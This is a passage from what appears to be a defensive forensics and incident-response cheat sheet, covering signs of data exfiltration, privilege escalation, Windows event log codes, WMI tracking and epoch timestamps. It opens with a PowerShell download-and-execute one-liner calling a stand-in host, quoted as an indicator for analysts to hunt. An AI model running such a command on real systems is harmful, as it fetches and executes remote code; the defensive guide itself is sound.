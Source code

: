 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```
You may also be able to grep out 'example-mail.com' and then look for `sentconfirm`, `SHOW_CONFIRMPAGE`, or logon/logout sessions.

#### Data dumping

It will be useful to stay on top of what are the most common dumping sites/exfiltration methods. This could be cloud storage like OneDrive, SharePoint, Google Drive, or websites like GitHub or PasteBin. PasteBin will send you a short link to what you uploaded and can be used to see what may be exfiltrated.

<a name="folderfile-creation"></a>
### Folder/file creation 

If you can see file creation in areas where you know it needs Administrator permissions (ie. Program Files and the Windows folders), from a user that you know is an attacker then you know that the attacker has gained privileges equivalent to the Administrator. 

<a name="gen-win-info"></a>
## General information

The following section contains general information about Windows, computers, browsers, etc. that an analyst should at least know exists.

<a name="win-event-logs"></a>
### Windows event logs
[*back to table of contents*](#b2t)

The event logs are a rich source of information in an investigation. For Windows Security logs the following reference is really useful in knowing what each code is doing; <https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/Default.aspx>

For a forensic look at codes; <https://www.forwarddefense.com/pdfs/Event_Log_Analyst_Reference.pdf>

#### Specific codes

**5858 - Microsoft-Windows-WMI-Activity**

These log will record WMI activity and will give a results code that potentially can give further information. For result codes go here: <https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-error-constants?redirectedfrom=MSDN>

<a name="track-wmi-activity"></a>
### Basics of tracking WMI activity
[*back to table of contents*](#b2t)

Go to; <https://www.darkoperator.com/blog/2017/10/14/basics-of-tracking-wmi-activity>

<a name="the-epoch-times"></a>
### The epoch times
[*back to table of contents*](#b2t)

Programs and logs will often use various timestamps to record data. While timestamps like Local Times are easy enough to convert to UTC sometimes others are hard to recognise. Below is a table to help assist in identifying those timestamps.

| Name | Description | Example |
| :--- | :---------- | :------ |
| UNIX epoch time (POSIX time) | Seconds since 1970-01-01 00:00:00 UTC | 1570603604 |
| FAT epoch time | Seconds since 1980-01-01 00:00:00 UTC |   |

A list of other systems and when they start the count for their epoch time can be found here: <https://en.wikipedia.org/wiki/Epoch_(computing)>.

```